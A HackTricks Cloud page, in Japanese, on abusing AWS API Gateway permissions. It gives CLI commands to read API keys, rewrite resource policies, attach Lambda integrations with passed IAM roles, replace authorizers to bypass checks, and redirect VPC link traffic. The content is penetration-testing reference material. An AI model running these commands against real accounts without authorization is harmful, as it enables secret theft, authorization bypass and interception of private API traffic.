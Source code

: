 # AWS - Apigateway Privesc

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## Apigateway

詳細については、以下を確認してください：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

この権限を使用すると、設定されたAPIのAPIキーを生成できます（リージョンごと）。
```bash
aws --region <region> apigateway create-api-key
```
**潜在的な影響:** この技術では権限昇格はできませんが、機密情報にアクセスできる可能性があります。

### `apigateway:GET`

この権限を使用すると、設定されたAPIの生成されたAPIキーを取得できます（リージョンごと）。
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**潜在的な影響:** この技術では権限昇格はできませんが、機密情報にアクセスできる可能性があります。

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

これらの権限を持つことで、APIのリソースポリシーを変更し、自分自身が呼び出すためのアクセスを得て、APIゲートウェイが持つ可能性のあるアクセスを悪用することができます（脆弱なラムダを呼び出すなど）。

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**潜在的な影響:** 通常、この技術で直接権限昇格はできませんが、機密情報にアクセスできる可能性があります。

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
テストが必要
{% endhint %}

`apigateway:PutIntegration`、`apigateway:CreateDeployment`、および `iam:PassRole` の権限を持つ攻撃者は、**IAMロールが付与されたLambda関数を使用して既存のAPI Gateway REST APIに新しい統合を追加することができます**。攻撃者はその後、**Lambda関数をトリガーして任意のコードを実行し、IAMロールに関連付けられたリソースにアクセスできる可能性があります**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: Lambda関数のIAMロールに関連付けられたリソースへのアクセス。

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
テストが必要
{% endhint %}

`apigateway:UpdateAuthorizer` と `apigateway:CreateDeployment` の権限を持つ攻撃者は、**既存のAPI Gatewayオーソライザーを変更**して、セキュリティチェックを回避したり、APIリクエストが行われる際に任意のコードを実行したりすることができます。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: セキュリティチェックのバイパス、APIリソースへの不正アクセス。

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
テストが必要
{% endhint %}

`apigateway:UpdateVpcLink`の権限を持つ攻撃者は、**既存のVPCリンクを異なるネットワークロードバランサーを指すように変更でき、プライベートAPIトラフィックを不正または悪意のあるリソースにリダイレクトする可能性があります**。
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**潜在的影響**: プライベートAPIリソースへの不正アクセス、APIトラフィックの傍受または中断。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
